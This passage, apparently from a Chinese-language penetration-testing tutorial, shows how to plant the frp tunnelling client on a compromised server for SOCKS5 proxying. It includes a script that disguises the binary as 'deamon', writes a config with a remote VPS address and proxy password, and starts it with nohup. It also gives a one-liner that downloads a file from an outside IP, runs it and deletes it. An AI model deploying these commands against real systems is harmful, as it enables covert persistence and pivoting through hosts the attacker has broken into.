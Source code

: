 ```
# 这里是要下载不同版本的 frp 文件
wget https://github.com/fatedier/frp/releases/download/v0.28.2/frp_0.28.2_linux_amd64.tar.gz -o /tmp/yU6te2.tar.gz
tar -zx /tmp/yU6te2.tar.gz frp_0.28.2_linux_amd64/frpc --strip-components 1
mv frpc deamon
rm -rf /tmp/yU6te2.tar.gz
# 这里写客户端配置文件
echo -e "[common]nserver_addr = 103.242.135.137nserver_port = 7000ntls_enable = truenpool_count = 5nn[plugin_socks]ntype = tcpnremote_port = 46075nplugin = socks5nplugin_user = josephnplugin_passwd = bnbm#yBZ90adnuse_encryption = truenuse_compression = true" &gt; delphi.ini
# 启动
nohup ./deamon -c delphi.ini &amp;
```

脚本比较简单不多说了

### <a class="reference-link" name="1.socks%E5%8D%8F%E8%AE%AE%E4%BB%A3%E7%90%86"></a>1.socks协议代理

首先最简单常用的就是socks协议代理，这一功能在 frp 中是以插件的形式实现的

客户端配置：

```
[common]
# 远程VPS地址
server_addr = 103.242.135.137
server_port = 7000
tls_enable = true
pool_count = 5


[plugin_socks]
type = tcp
remote_port = 46075
plugin = socks5
plugin_user = joseph
plugin_passwd = bnbm#yBZ90ad
use_encryption = true
use_compression = true
```

在被入侵的服务器上执行如下命令一键部署

wget [http://103.242.135.137/3Edsr9I](http://103.242.135.137/3Edsr9I) &gt;/dev/null 2&gt;&amp;1 &amp;&amp; chmod +x 3Edsr9I &amp;&amp; ./3Edsr9I &amp;&amp; rm -rf 3Edsr9I

可以看到 Client Counts 及 Proxy Counts 均产生了变化

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01919c366379d72c9b.png)

此时我们将流量通过 socks 协议指到服务端，是用 shadowsocks/Proxifier/proxychains 就看个人爱好了
